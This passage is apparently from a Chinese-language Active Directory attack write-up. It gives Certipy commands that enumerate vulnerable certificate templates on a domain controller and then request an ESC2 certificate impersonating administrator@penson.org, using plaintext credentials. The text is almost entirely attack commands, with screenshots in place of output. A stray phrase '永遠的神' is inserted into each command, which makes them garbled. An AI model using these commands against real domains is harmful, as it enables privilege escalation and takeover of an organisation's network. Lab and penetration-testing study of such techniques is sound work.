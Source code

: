 ## 漏洞利用

```plain
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.21 -debug -scheme ldap -stdout -vulnerable //ldaps 没开的话
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.21 -stdout -vulnerable //默认 ldaps
```

[![](assets/1708508972-9245c3055639b4071bab09db716de5b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170106-9542e086-cfce-1.png)

注册 esc2 证书

```plain
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -ca penson-ADCS-CA -dc-ip 192.168.142.21 -template PensonEsc2 -upn administrator@penson.org -debug
```

[![](assets/1708508972-1bacddeef04259aafbe019066aefabdf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170119-9cda79ee-cfce-1.png)

